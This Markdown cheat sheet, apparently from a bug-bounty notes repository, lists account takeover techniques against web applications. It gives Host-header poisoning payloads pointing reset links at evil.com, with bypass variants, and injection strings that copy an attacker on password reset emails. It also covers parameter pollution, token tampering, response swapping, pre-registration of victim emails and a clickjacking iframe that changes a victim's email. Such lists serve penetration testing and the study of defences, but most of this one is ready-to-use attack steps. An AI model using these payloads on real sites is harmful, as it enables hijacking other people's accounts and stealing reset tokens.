 ## Account Takeover Techniques

### Password Reset Functionalities
```
- Register an account as an attacker.
- Change password and intercept success response of password change.
- Register an account as a victim.
- Try to change password and intercept the response.
- Paste the attacker success response.
```
```
- Click forgot password and put your email.
- Intercept the request and add some headers with attacker control domain.
- Check email and see if password token comes with attacker control domain.
```
##### Headers
Try to change Host header.
```
Host: evil.com

Not working? Jsut double it.
Host: target.com
Host: evil.com
```
```
Host: target.tld?><a href=http://evil.com
```
Other Headers
```
X-Forwarded-Host:
X-Original-Url:
X-Forwarded-Server:
X-Host:
X-Rewrite-Url:
X-Originating-IP:
X-Forwarded-For:
X-Remote-IP:
X-Remote-Addr:
X-Client-IP:
```

Host Header Bypass Methods
```
GET /api/reset-password HTTP/1.1
Host: vulernable-website.com.evil.com

GET /api/reset-password HTTP/1.1
Host: vulernable-website.com?evil.com

GET /api/reset-password HTTP/1.1
Host: evil.com/vulernable-website.com

GET /api/reset-password HTTP/1.1
Host: evil.com%00vulernable-website.com
```

```
- Click forgot passowrd and enter attacker email.
- Intercept the response (Action > Do intercept > Response to this request) and looking for password reset token or code.
- If found, then do the same procedure for victim email. 
```

```
- Click forgot passowrd and enter attacker email.
- Go to email and click on password reset link. See carefully the password reset link, if the link contatin the email using parameter change it with victim email
  or use both email using HPP techniques.
- If email found in POST body, change it with victim email or use both attacker and victim email using HPP.
- If no email found, try SMTP Header Injection techniques.
```

```
- Issue a password reset token for atttacker@email.tld.
- Go to settings and change your email to victim@email.tld.
- Now go to attacker@email.tld's inbox and click on password reset link.
- See the link is working or not.

# Impact
Sometime web app doesn't care about email. User can create more than one account using same email with unique username. 
```
#### Session Puzzling/Session Overloading Attack
```
- Try to access victim's dashboard or profile page normaly which is accessible after login.
- Go to Forgot Password and request for password change behalf of victim.
- Now directly go to dashboard or profile page. If victim's dashboard or profile accessible then it is Session Puzzling/Session Overloading Attack.
```

#### With HTTP Parameter Pollution
```
- Go to password reset link, enter new password and intercept the request
- Add extra email parameter on the request
  email=victim@email.tld&email=attacker@email.tld
- If response success then see which account password has been changed
```

#### SMTP Header Injection
```
victim@mail.tld%0d%0acc:attacker@mail.tld

victim@mail.tld%0d%0abcc:attacker@mail.tld

email=victim@email.tld%20email=attacker@email.tld

email=victim@email.tld|email=attacker@email.tld

email="victim@mail.tld",email="attacker@mail.tld"

email=victim@email.tld:attacker@email.tld

{"email":["victim@email.tld","atracker@email.tld"]}
```

### Playing With Token
```
- Use attacker's valid token on Victim's account
- Completely remove the token
- Change it to 00000000000...
- Use null value
- Try expired token
- Try an array of old tokens
- Change 1 char at the begin/end to see if the token is evaluated
- Bruteforce token
```
### Pre-Account Takeover
**Suppose two features(Login via OAuth and email) are available and no email verification needed after registration.**
```
- Create an account using victim email.
- Suppose the victim create an account via OAuth(Login With Google) using same email.
- Now attacker is able to access the victim account.
```
*May be victim will not be able to create an account with this email(Email Already Exist)*

### Admin Panel Access
**Suppose no email verification needed after registration.**
```
- Try to find out other stuff's email of the company(Use hunter.io).
- Try to register with those email one by one and see it is possible to access stuff's account or admin panel or not.
```

### Other Techniques
```
- Use unicode char jutsu to spoof email address
- Change request method (get, put, post etc) and/or Content Type (xml<->json) 
- Match bad response and replace with good one
- Use super long string
```

### Email Change
#### ClickJacking
```
If email can change via GET parameter then check is there any protection against ClickJacking.
<iframe src="http://example.com/change?email=attacker@mail.com"></iframe>
```
